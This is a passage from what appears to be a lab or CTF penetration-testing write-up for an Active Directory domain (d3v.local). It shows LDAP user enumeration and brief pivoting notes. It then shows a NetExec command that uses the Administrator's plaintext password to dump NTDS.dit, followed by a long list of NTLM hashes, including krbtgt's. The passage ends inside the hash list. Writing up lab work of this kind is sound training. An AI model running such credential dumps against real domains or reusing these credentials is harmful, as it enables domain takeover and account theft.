LDAP        10.9.30.10      389    D3DC             Elizabeth.Ferrara             2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Lisa.Blair                    2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Henrietta.Bridges             2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Luis.Burton                   2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Monica.Arteaga                2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Sabrina.McNulty               2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Michael.Darrington            2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Robert.Cantu                  2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Melody.Barron                 2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Scott.Hacker                  2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Linda.Schumacher              2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Derrick.Miller                2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Marie.Yeary                   2020-01-02 16:44:40 0                                                                   
LDAP        10.9.30.10      389    D3DC             Scott.Rogers                  2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Kiara.Owens                   2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             James.Barajas                 2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             James.Weeks                   2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Joe.Murray                    2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Mary.Hill                     2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             William.Lee                   2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Patrica.Alvarez               2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Virginia.Garst                2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Brian.Hopkins                 2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Charles.Halley                2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Leonard.Dennis                2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             Vivian.Baker                  2020-01-02 16:44:41 0                                                                   
LDAP        10.9.30.10      389    D3DC             svc_jenkins                   2020-01-02 16:44:41 0
```

&nbsp;

# AD Anaylsys

With James.Peck's credentials obtained from the Zabbix machine I will perform a AD snaphot so I can get an idea on how it looks on the D3V.LOCAL domain.



It is clear that the next step is Jenkins since we know from ADFS that Jenkins is allowed only by Devops from D3V.LOCAL domain.



And we can see that he is part of it:

The rest I feel I need to come back as soon i know more!

I also found that James.week is part of Linux admins?



&nbsp;

# Finally done!

With the credentials saved from the Administrator in the Absible we can perform a NTDS dump and get all the hashes we need!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─# NetExec smb 10.9.30.10 -u "Administrator" -p "i@V@36hbW" -M ntdsutil
SMB         10.9.30.10      445    D3DC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:D3DC) (domain:d3v.local) (signing:True) (SMBv1:False)
SMB         10.9.30.10      445    D3DC             [+] d3v.local\Administrator:i@V@36hbW (Pwn3d!)
NTDSUTIL    10.9.30.10      445    D3DC             [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\171940520
NTDSUTIL    10.9.30.10      445    D3DC             Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.9.30.10      445    D3DC             [+] NTDS.dit dumped to C:\Windows\Temp\171940520
NTDSUTIL    10.9.30.10      445    D3DC             [*] Copying NTDS dump to /tmp/tmpasxfkkdb
NTDSUTIL    10.9.30.10      445    D3DC             [*] NTDS dump copied to /tmp/tmpasxfkkdb
NTDSUTIL    10.9.30.10      445    D3DC             [+] Deleted C:\Windows\Temp\171940520 remote dump directory
NTDSUTIL    10.9.30.10      445    D3DC             [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.9.30.10      445    D3DC             Administrator:500:aad3b435b51404eeaad3b435b51404ee:fdc8ae3bed4f71b28867737a566fdfe0:::
NTDSUTIL    10.9.30.10      445    D3DC             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.30.10      445    D3DC             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.30.10      445    D3DC             D3DC$:1000:aad3b435b51404eeaad3b435b51404ee:f15509e5252d987bafb4a7553891c3db:::
NTDSUTIL    10.9.30.10      445    D3DC             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c8b44e493614ca6f93b672daca6c7cac:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Nickolas.Anthony:1103:aad3b435b51404eeaad3b435b51404ee:e1b3cbe4a7234a515a88ef52cfca5e70:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Gloria.Stoehr:1104:aad3b435b51404eeaad3b435b51404ee:c29b955553ff57793881010a25ca9bea:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kenneth.McKay:1105:aad3b435b51404eeaad3b435b51404ee:9ef9f5584753ca4f51ec38e775bfc08f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mi.Isaacs:1106:aad3b435b51404eeaad3b435b51404ee:d740c8fecda87b2fab74ee8bbb940007:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Sadie.Dean:1107:aad3b435b51404eeaad3b435b51404ee:50d939216851a8cead264163c2cb2fe4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Merry.Schultz:1108:aad3b435b51404eeaad3b435b51404ee:67798b2a5842550bdfd3039c0932a782:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Thelma.Davis:1109:aad3b435b51404eeaad3b435b51404ee:296b23eb890046df0040b1e8c59757b0:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Eddie.Hill:1110:aad3b435b51404eeaad3b435b51404ee:29b47b23eb43eefbc11a2aecc223c429:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Arthur.Jackson:1111:aad3b435b51404eeaad3b435b51404ee:4f6427425f00d7f48013aca0def6ecfe:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Otis.Corbeil:1112:aad3b435b51404eeaad3b435b51404ee:7d99ffd23c334fefc6e964a3759c4cad:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Timothy.Collins:1113:aad3b435b51404eeaad3b435b51404ee:6d06f50c6843468d654a53d6a7ca9d46:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Benny.Ginn:1114:aad3b435b51404eeaad3b435b51404ee:0e916fb469d2b6499a1c7df4ca7f8186:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\James.Fraser:1115:aad3b435b51404eeaad3b435b51404ee:1b2c29f880e2628baf67a8657dcdd20e:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mikel.Williams:1116:aad3b435b51404eeaad3b435b51404ee:171ffd076167dfb48b5efaa6b2f978ea:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Williams:1117:aad3b435b51404eeaad3b435b51404ee:c71ee56a5a0f645609578609f15e52d2:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Tim.Bell:1118:aad3b435b51404eeaad3b435b51404ee:f5f3cee54b4dc180463c57f3e2de9c3e:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robin.Townson:1119:aad3b435b51404eeaad3b435b51404ee:bee17054cc3f7e5d18c8e9780de3a1ab:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Nicholas.Martin:1120:aad3b435b51404eeaad3b435b51404ee:f33510f43a3aab26a850005faddf11e2:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mary.Ross:1121:aad3b435b51404eeaad3b435b51404ee:23fa0378a25c8ed43049fd1923b9f6e4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Ida.Guarino:1122:aad3b435b51404eeaad3b435b51404ee:369afea0df5d9d708c2a96264f269738:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Daniel.Mosher:1123:aad3b435b51404eeaad3b435b51404ee:1c0b09b2aa0190386a1e6350520b86dd:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\George.Edwards:1124:aad3b435b51404eeaad3b435b51404ee:c71f534782c7005a36a042d92cbf664a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jenifer.Berger:1125:aad3b435b51404eeaad3b435b51404ee:2255515e4e7580ecfe91460ba51e4b1c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Latasha.Petillo:1126:aad3b435b51404eeaad3b435b51404ee:b1f885d56657349a2d651ea76cca8a0e:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Earl.Castello:1127:aad3b435b51404eeaad3b435b51404ee:7015d3ab596a328ad1b3f1ada9ed5aa6:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Garton:1128:aad3b435b51404eeaad3b435b51404ee:236151a37270d2349e240213b65f7b6f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kathline.Brown:1129:aad3b435b51404eeaad3b435b51404ee:d1ce56b7a1f3d7ff6cf83b9842349431:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Susan.Ortiz:1130:aad3b435b51404eeaad3b435b51404ee:389aae0c9115599fef229bbab89bd8c5:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jack.Jennings:1131:aad3b435b51404eeaad3b435b51404ee:8c4c73c3a57554c15b28f38a4f70e1ca:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Holli.Macy:1132:aad3b435b51404eeaad3b435b51404ee:5881ab88bce90a44b9d91247bdd6b161:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Phyllis.McMillen:1133:aad3b435b51404eeaad3b435b51404ee:fea23f81bc8bf501d900cb9f6d3381ce:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Sarah.Kirk:1134:aad3b435b51404eeaad3b435b51404ee:ab2c02eda1fe92ed898c3b667dd638ad:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Carlos.Evans:1135:aad3b435b51404eeaad3b435b51404ee:8129ab662b6e8bccc8cf5fae58004f13:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Rosie.Noriega:1136:aad3b435b51404eeaad3b435b51404ee:3c0e8bea30fa52e567e4e1f025b4ac13:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Anthony.Roberts:1137:aad3b435b51404eeaad3b435b51404ee:8c131fa7714e9b8c38905b1274c1c9aa:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Marie.Montemayor:1138:aad3b435b51404eeaad3b435b51404ee:e3c797b04a0e43db33248bf458947b4b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Betty.Murray:1139:aad3b435b51404eeaad3b435b51404ee:6b5b868db1f79ef4f087519e85c7ad0c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Alison.McLaurin:1140:aad3b435b51404eeaad3b435b51404ee:fe041a698efdb8e15de4cb82793fadfe:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Suzette.Horton:1141:aad3b435b51404eeaad3b435b51404ee:6d051dabfd9f1fd3aae5498ce6e650aa:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joseph.Bratt:1142:aad3b435b51404eeaad3b435b51404ee:0b5f1f345bf02729bbe5da39fb19f840:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\James.Peck:1143:aad3b435b51404eeaad3b435b51404ee:1a7515394f0198788a392ad563885047:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jose.Johnson:1144:aad3b435b51404eeaad3b435b51404ee:d2dfbfdaa814c986f738a37ff3965e80:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Arthur.Haggard:1145:aad3b435b51404eeaad3b435b51404ee:21c8ba54d5ab61ace934e8e0c0fe4f6d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Tammy.Myers:1146:aad3b435b51404eeaad3b435b51404ee:5fc58f9ecee4160a4b292732e1cbb0c8:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Paul.Daniel:1147:aad3b435b51404eeaad3b435b51404ee:7f66382502357f1f4c3b217de8d7df3a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Arthur.Barber:1148:aad3b435b51404eeaad3b435b51404ee:e5a0e734606e618fb1edfff1e088cd8d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Nancy.Brown:1149:aad3b435b51404eeaad3b435b51404ee:9d3f3b487aff57f02ed508f5bb0f47bd:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Juan.Torres:1150:aad3b435b51404eeaad3b435b51404ee:a494c56ae5d2eb5b7d4be2abf85f70d1:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\John.O'Neill:1151:aad3b435b51404eeaad3b435b51404ee:0be255b1496ada3880ee0f5ef3aba687:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Sharon.Watkins:1152:aad3b435b51404eeaad3b435b51404ee:49e60b05b6c18ff043559fa55c2145ff:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Wendy.Casey:1153:aad3b435b51404eeaad3b435b51404ee:9a2d6467ca4944ac51ab86ddee9d45df:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jacob.Taylor:1154:aad3b435b51404eeaad3b435b51404ee:ad1e100fa3d52893600cf019ebedc0f4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Castillo:1155:aad3b435b51404eeaad3b435b51404ee:f448c737cb295f14f7d6f0624987c510:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Miguel.Cleveland:1156:aad3b435b51404eeaad3b435b51404ee:47882364eb934344ecf7702f90efa2f7:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Steven.Uribe:1157:aad3b435b51404eeaad3b435b51404ee:e1bd45af830f5712d4637d61d8a083f3:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Ana.Crepeau:1158:aad3b435b51404eeaad3b435b51404ee:92fe6508416825463e15f31de917389b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Eleanor.Clingerman:1159:aad3b435b51404eeaad3b435b51404ee:89fae4f491a27d981aa5f6a2f4cdb4ed:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Alice.Barnes:1160:aad3b435b51404eeaad3b435b51404ee:ba16db5b1d76a4d851616452c25825df:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Virginia.Isaacs:1161:aad3b435b51404eeaad3b435b51404ee:cb1bf6efc86e461b1858ac2103d7ee41:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Craig.Dana:1162:aad3b435b51404eeaad3b435b51404ee:093fa2c8fb61c9c9b816dbb80e7e6d1f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Paola.Watson:1163:aad3b435b51404eeaad3b435b51404ee:29889efd328f1a6583f432fe958df113:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mary.Ricketts:1164:aad3b435b51404eeaad3b435b51404ee:ff81e6da9b84aaebd4a25ccb6b9f96c2:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Regina.Rasmussen:1165:aad3b435b51404eeaad3b435b51404ee:c1b899d0dbefa547230caff98076a52b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jan.Arreguin:1166:aad3b435b51404eeaad3b435b51404ee:8d0a1a92dbe1ab785192c8e9149a1cee:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Carlton.Edwards:1167:aad3b435b51404eeaad3b435b51404ee:5872c8f149f14bb93946c80d7e6e8e84:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jerome.Adams:1168:aad3b435b51404eeaad3b435b51404ee:e02b85ec2f372f363275820631929145:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mary.Haack:1169:aad3b435b51404eeaad3b435b51404ee:fcf3bcff7893e6f1e6c4db9dab099c2e:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jennifer.Bass:1170:aad3b435b51404eeaad3b435b51404ee:db96f26a3991ce03524d502cab16fde4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Chacon:1171:aad3b435b51404eeaad3b435b51404ee:dc09e04753c5bdb69633b1973c180455:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\James.Gonzalez:1172:aad3b435b51404eeaad3b435b51404ee:6c4b9e8cdf6e63f37d8c71029d6b0412:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Shannon.Looney:1173:aad3b435b51404eeaad3b435b51404ee:84f3f106abee46ea4ee0fc0c495f9099:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joshua.Moss:1174:aad3b435b51404eeaad3b435b51404ee:cc1c80f5db4856f547b5967103c6d819:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Doris.Sheats:1175:aad3b435b51404eeaad3b435b51404ee:01ba68d1f8f1ac09753d213927bee364:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jay.Sanderson:1176:aad3b435b51404eeaad3b435b51404ee:6b9a72d2222339bedcfc3361cc68ce40:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Earnest.Silva:1177:aad3b435b51404eeaad3b435b51404ee:3ba290ec34a359d8851738f6d9ce79d0:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Gloria.Cantwell:1178:aad3b435b51404eeaad3b435b51404ee:a94cdcc316915e98fa17944029adbb10:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Judy.McClain:1179:aad3b435b51404eeaad3b435b51404ee:5ad2b25b16092eaa2fc6d55204ca6673:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Rebecca.Kuster:1180:aad3b435b51404eeaad3b435b51404ee:98f20e47ddeb801b540f5e0f23a5bd2a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Richard.Lee:1181:aad3b435b51404eeaad3b435b51404ee:beccb31413c0a39cdccb3d6ca82b2df2:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Leandro.Gonzalez:1182:aad3b435b51404eeaad3b435b51404ee:a12200c844ace46b9fcc94da816d69d4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\John.Louis:1183:aad3b435b51404eeaad3b435b51404ee:740a052c4b9d7951893b458dabedd541:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Richard.Hooper:1184:aad3b435b51404eeaad3b435b51404ee:d5d0f15f441d87be0474ad790581225d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Shirley.Jessen:1185:aad3b435b51404eeaad3b435b51404ee:fe1408c5e26e58cc11ad53f421a1f154:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\John.Padilla:1186:aad3b435b51404eeaad3b435b51404ee:e783f3053906439838fde20050687f6c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jose.Donnellan:1187:aad3b435b51404eeaad3b435b51404ee:17310235c260b4866e150ad1320783d4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Dillon:1188:aad3b435b51404eeaad3b435b51404ee:7d6bf26d72a24b79e8590130ab2b6583:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Ralph.Shull:1189:aad3b435b51404eeaad3b435b51404ee:21dbfb90a657fb2c856e29d148e4adbe:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Arturo.Meyer:1190:aad3b435b51404eeaad3b435b51404ee:448d71be7733373591df03e4e46787fa:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joseph.Zamora:1191:aad3b435b51404eeaad3b435b51404ee:d7db424b1c1b7e1d2e7283113a74b48f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Tracy.Johnson:1192:aad3b435b51404eeaad3b435b51404ee:5941df07f9e367b42142dcb906f41bbd:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Gary.White:1193:aad3b435b51404eeaad3b435b51404ee:180c5797c4037dec15839f94a766a420:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Amy.Gephart:1194:aad3b435b51404eeaad3b435b51404ee:0b852bbc6de058b4ae3e029bae20e785:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Lester.Bunker:1195:aad3b435b51404eeaad3b435b51404ee:808bd5ac04aa6490d04f86a31c2496e8:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Aaron.Burns:1196:aad3b435b51404eeaad3b435b51404ee:a252f28f816a03d0a7cbc8178497ef98:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Connie.Fullilove:1197:aad3b435b51404eeaad3b435b51404ee:3fe9b3283776792bee8b04d79dc2c38a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\William.Simpson:1198:aad3b435b51404eeaad3b435b51404ee:c3669ec8d17f10896943eeb4f360649c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Rachel.Durden:1199:aad3b435b51404eeaad3b435b51404ee:575db3ca64975454b425b068d906b906:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Julius.Lee:1200:aad3b435b51404eeaad3b435b51404ee:f10feeeccaa98fea737d0b1916f23c4c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\James.Blackwell:1201:aad3b435b51404eeaad3b435b51404ee:eca2f9b0663d0acd2816add6802b98c5:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Carmen.Marsh:1202:aad3b435b51404eeaad3b435b51404ee:dd14818e98695e87ed029780cead997a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mary.Asberry:1203:aad3b435b51404eeaad3b435b51404ee:5107e8c8e6dfa9f39ca1b03d6657472f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Antone.Robinson:1204:aad3b435b51404eeaad3b435b51404ee:8c1b7db906e8e5a1d09c566a9f9d0aad:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kathy.Moses:1205:aad3b435b51404eeaad3b435b51404ee:ecb95af7fc20664d52b17b0470b4b85b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Heidi.Ortiz:1206:aad3b435b51404eeaad3b435b51404ee:9642f0ec9aab0210fe7459b2f44bd881:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Nancy.Myrick:1207:aad3b435b51404eeaad3b435b51404ee:377249722a7f67b59c53abb8b2717865:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kate.Lambert:1208:aad3b435b51404eeaad3b435b51404ee:15fd1324cf38e834c1daa5e0ba44ee6c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Tammy.Kilpatrick:1209:aad3b435b51404eeaad3b435b51404ee:1a0e7eba7f8e85e2b977f43fddc09b6a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Michael.Moten:1210:aad3b435b51404eeaad3b435b51404ee:873a6ed9f765fc64607449694c572a6b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Dewey.Favreau:1211:aad3b435b51404eeaad3b435b51404ee:10fb14a14e919f76953e2eae5294077a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jennifer.Yates:1212:aad3b435b51404eeaad3b435b51404ee:7407888693587751110019071dd68c00:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Brian.Shay:1213:aad3b435b51404eeaad3b435b51404ee:ed5384cafff37ba12264f835c521ec9c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kathleen.Ellison:1214:aad3b435b51404eeaad3b435b51404ee:9a0e5df0f5cd548826c38564dc0b9e0c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\David.Pillow:1215:aad3b435b51404eeaad3b435b51404ee:26b592b43034dc1f571f4dcb19dc16bb:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\John.Macklin:1216:aad3b435b51404eeaad3b435b51404ee:a195888d536d24aaaaa81eee7dba9a4f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Brandon.Tompkins:1217:aad3b435b51404eeaad3b435b51404ee:bae030938b4532a2cd57401573a37a9d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Christina.Mackenzie:1218:aad3b435b51404eeaad3b435b51404ee:bfceabdaaaa6d509d609866a5a210006:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Michael.Edwards:1219:aad3b435b51404eeaad3b435b51404ee:0f796f9ff8bedd49397c0f2fca949733:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Harriet.Devereaux:1220:aad3b435b51404eeaad3b435b51404ee:f0968b9d4b4a950ae98fdfe85a2f4268:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Anna.Cortez:1221:aad3b435b51404eeaad3b435b51404ee:d7620abd03c01d55f4c28e2e56c109b2:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Roy.Broome:1222:aad3b435b51404eeaad3b435b51404ee:cafd0dac684eab4f6603426fbd9a2aa8:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jan.Wolfe:1223:aad3b435b51404eeaad3b435b51404ee:b30cb6d9fad229f7cbda356c2c6186d3:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Shelba.Ramsey:1224:aad3b435b51404eeaad3b435b51404ee:c9c7540ed98fc20eb4046c957e145df0:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Juan.Hayworth:1225:aad3b435b51404eeaad3b435b51404ee:c8d26e5a2760d675fcd9594395000830:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Talitha.Allen:1226:aad3b435b51404eeaad3b435b51404ee:d201bbe53250e8f675f31129ee11e3fe:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joshua.Wheatley:1227:aad3b435b51404eeaad3b435b51404ee:05a28cbbdd5df1d420f66d1e417ebfc1:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Scott.Leonard:1228:aad3b435b51404eeaad3b435b51404ee:985c895ccb78d6ae210d5a0214b909ac:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Darren.Allender:1229:aad3b435b51404eeaad3b435b51404ee:ac21965bcb1ea85acd57b57308253e9c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Teddy.Klingbeil:1230:aad3b435b51404eeaad3b435b51404ee:3d0529e70f53c05cede853a0727ebcc3:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Sara.Loch:1231:aad3b435b51404eeaad3b435b51404ee:7759b1b20951147b4f62162858dbb9f8:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Phyllis.Golden:1232:aad3b435b51404eeaad3b435b51404ee:801703046fadb5764899eea63644ef60:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joseph.Maddox:1233:aad3b435b51404eeaad3b435b51404ee:ab84c7e1b37e152494fc80082d0fc106:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Heather.Holloway:1234:aad3b435b51404eeaad3b435b51404ee:fd979dab61ed61ca82dc2af7fc4f1e45:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kristen.Havens:1235:aad3b435b51404eeaad3b435b51404ee:879a9835c61601174389d9c8809ff5a3:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\William.Griffin:1236:aad3b435b51404eeaad3b435b51404ee:c0b28f9501e77ba6ecc97b48b14599bf:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Donnie.Garcia:1237:aad3b435b51404eeaad3b435b51404ee:dd3ac413cf6e82e2c175b0e39d97fc94:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Nicole.Chang:1238:aad3b435b51404eeaad3b435b51404ee:1ef8d652a525654c95fe689abd607884:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Talia.Canales:1239:aad3b435b51404eeaad3b435b51404ee:8eab1b66f2eb6b999422459507689760:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jeff.Lasseter:1240:aad3b435b51404eeaad3b435b51404ee:624b60786358716be7da0e62a37b0b8f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Dorothy.Loveland:1241:aad3b435b51404eeaad3b435b51404ee:8c7163352bda183aea970211aa6cf521:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Tracey.Delrosario:1242:aad3b435b51404eeaad3b435b51404ee:cf331cb62fba3a4646b1c1ab6a0e6fe8:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Curtis.Garcia:1243:aad3b435b51404eeaad3b435b51404ee:54cbf36e2a5fd26639ba123416b32e5d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Erica.Simmons:1244:aad3b435b51404eeaad3b435b51404ee:1a4cee94da86b18b5418cee3f5b489f1:::
